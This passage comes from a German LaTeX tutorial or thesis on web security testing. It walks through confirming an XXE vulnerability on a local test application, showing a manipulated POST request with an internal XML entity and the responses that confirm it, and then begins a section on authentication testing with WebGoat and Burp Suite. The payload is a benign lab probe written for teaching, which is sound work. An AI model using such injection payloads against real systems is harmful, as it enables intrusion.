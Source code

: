 Hier soll beachtet werden, dass die Anwendung in der HTTP-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die XML-Daten geparst werden.

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username} Element mit \&u verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet nochmal werden, dass die Anwendung der interne Einheit auflöst und die XXE-Sicherheitsanfälligkeit erfolgreich bestätigt.\\

\begin{LaTeXCode}[caption={Bestätigung der XXE-Schwachstelle},captionpos=b][numbers=none]
	HTTP/1.1 200 OK
	Date: Sun, 20 May 2018 06:31:39 GMT
	Server: Apache/2.4.27 (Win64) PHP/5.6.31
	X-Powered-By: PHP/5.6.31
	Content-Length: 16
	Connection: close
	Content-Type: text/html; charset-UTF-8	
	
	username: username from internal entity\\
\end{LaTeXCode}

\newpage

\subsection{Testen von Fehlerhafte Authentifizierung mit Webgoat und Burp Suite}
Dieses Tutorial stammt aus der Webseite Tutorialspoint\cite{tpfa15}.
Eine Webanwendung unterstützt das Umschreiben von URLs, indem Sitzungs-IDs in die URL eingefügt werden.\\

